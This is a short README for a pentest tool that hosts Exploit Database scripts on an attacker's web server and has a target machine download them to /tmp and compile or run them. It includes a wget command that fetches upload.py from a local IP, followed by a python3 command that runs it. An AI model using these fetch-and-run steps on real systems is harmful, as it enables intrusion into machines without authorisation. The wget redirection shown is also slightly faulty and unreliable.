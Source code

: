 # Exploit Database Upload
The purpose of this is to make the process of uploading exploit database scripts to a target machine. The local script will make 
the webserver and the upload files will curl and compile/run the files (written to /tmp).

## Purpose and usage
This is built to work in a pentest of most unix devices. The host system I use is kali linux, but any machine with SimpleHTTPServer 
(python) installed should work. The upload file pulls from a server running this way, so modification will have to happen (port) to 
get it working its best.

## Instructions

**Local**
Run the local file
'''
bash local.sh
'''
**Remote**
Upload the 'upload' file to /tmp. I'll give the example of using a webserver
'''
wget *ip*:*port*/*file* > /tmp/upload.py
'''
Example
'''
wget 192.168.1.6:8000/upload.py > /tmp/upload.py
'''
The upload.py file will already be hosted on the server to start with, so this method should be simple.
The rest of the program should be fairly simple to use after running
'''
cd /tmp
python3 upload.py
'''
The program may work in python 2, but the functionality is not as good as I would like it to be. Please use python 3.
